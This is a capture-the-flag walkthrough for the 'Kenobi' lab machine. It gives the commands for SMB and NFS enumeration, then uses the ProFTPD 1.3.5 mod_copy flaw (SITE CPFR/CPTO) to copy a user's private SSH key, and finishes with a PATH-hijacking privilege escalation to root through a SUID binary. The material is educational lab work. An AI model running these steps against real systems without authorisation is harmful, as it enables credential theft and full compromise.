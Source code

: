 # Kenobi Walkthrough

> Nashia Holloway | April 30th, 2020

## Task 1 Deploy the Vulnerable Machine

**2. Scan the machine with nmap, how many ports are open?**

```
nmap -sC -sV -A $IP -oN initial.nmap
```

![](initial.png)

## Task 2 Enumerating Samba for Shares

**1. How many shares have been found?**

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP -oN shares.nmap
```

There are 3 shares. IPC$ and print$ are normal to see, however there is also an anonymous share.

![](shares.png)

**2. Connect to the share and list the files. What file is seen?**

```
smbclient //$IP/anonymous
```

Once connected, use the command `dir` to list the contents of the directory to find the file `log.txt`.

**3. What port is FTP running on?**

FTP usually runs on port 21, and we can see from the initial nmap scan that that port is open.

**4. What mount can we see?**

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP -oN nfs.nmap
```

`/var` is the mount seen.

## Task 3 Gain Initial Access with ProFtpd

**1. Use netcat to connect to the FTP port. What is the version of ProFtpd?**

```
nc $IP 21
```

`1.3.5` is the version of ProFtpd.

**2. How many exploits for ProFtpd are there?**

```
searchsploit ProFtpd 1.3.5
```
There are 3 exploits.

![](proftpd_exploits.png)

The mod\_copy module exploit can be used to copy files/directories from one place to the other on the server. Any authenticated client can use this functionality.

**4. Copy Kenobi's private SSH key using SITE CPFR and SITE CPTO commands**

```
nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

**5. Mount the /var/tmp directory to our machine**

```
mkdir /mnt/kenobiNFS
mount $IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

Once mounted, copy Kenobi's SSH key to our working directory and SSH into the box.

```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 is_rsa
ssh -i id_rsa kenobi@$IP
```

Cat `user.txt` to grab the flag.

## Task 4 Privilege Escalation with Path Variable Manipulation

**1. Look for SUID bits. Which one looks out of the ordinary?**

```
find / -perm -u=s -type f 2>/dev/null
```

`/usr/bin/menu` doesn't look normal. Running it, 3 options appear.

![](usr_bin_menu.png)

Running `strings` on menu shows the commands used aren't running with their full path. Since the file runs as root, we can change our PATH to get a shell.

**3. Manipulate PATH to get a shell.**

```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

Enter `1` to get a shell as root. The flag is in the `/root` directory.
